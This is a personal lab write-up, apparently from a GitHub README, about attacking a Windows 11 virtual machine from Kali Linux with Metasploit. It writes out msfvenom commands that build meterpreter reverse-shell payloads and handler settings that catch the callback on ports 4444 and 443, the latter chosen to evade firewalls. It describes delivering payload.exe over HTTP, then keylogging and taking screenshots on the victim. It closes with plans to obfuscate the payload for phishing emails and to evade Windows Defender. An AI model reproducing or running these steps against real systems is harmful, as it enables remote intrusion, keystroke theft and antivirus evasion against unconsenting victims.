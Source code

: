 -   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images\media\image7.png)

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png)

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png)

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png)

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png)

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png)

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png)

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png)

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png)

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png)

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png)

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
